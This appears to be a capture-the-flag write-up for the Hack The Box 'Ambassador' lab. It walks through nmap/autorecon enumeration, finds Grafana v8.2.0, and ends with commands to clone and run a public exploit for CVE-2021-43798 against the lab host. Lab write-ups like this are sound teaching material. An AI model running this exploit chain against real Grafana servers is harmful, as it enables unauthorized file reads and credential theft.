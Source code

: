 
Add `ambassador.htb` to `/etc/hosts`

```bash
echo "10.10.11.183	ambassador.htb" | sudo tee -a /etc/hosts
```

Initial enumeration consisted of firing up `autorcon`

```bash
sudo (which autorecon) ambassador.htb
```
- It will not inform you of the desired port `3000` on the initial terminal output. You can go to:
	- `/results/ambassador.htb/scans/`

```bash
cat _full_tcp_nmap.txt | grep open                                                                                                                                                            

22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63 MySQL 8.0.30-0ubuntu0.20.04.2
```
- Manual enumeration of `http://ambassdor:80` didn't offer much with the exception of the default username of `developer`.
- running `nc ambassador.htb 3306` verified `mysql` was running, but without proper credentials it will output an error message.
- At `http://ambassador.htb:3000/` a login page can be found:
- [[http://ambassador.htb:3000/login]]
- Despite `Grafana` not having any password rate limiters this will not be the route in.
- Fortunately, the `Grafana` app has some convenient information disclosure of the version at the bottom right.

```bash
v8.2.0
```

GoogleFu:
- `grafana v8.2.0 exploit`
- This will lead you to:
	- [[https://www.exploit-db.com/exploits/50581]]
- I was more interested in the `CVE` name:
	- `CVE-2021-43798`

GoogleFu:
- `CVE-2021-43798 git`
- This will lead you to this convenient github repository:
	- [[https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798]]
- Run:

```bash
git clone https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798.git
cd exploit-grafana-CVE-2021-43798
python3.9 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
echo "http://ambassador.htb:3000" > targets.txt
python3 exploit.py
targets.txt
```
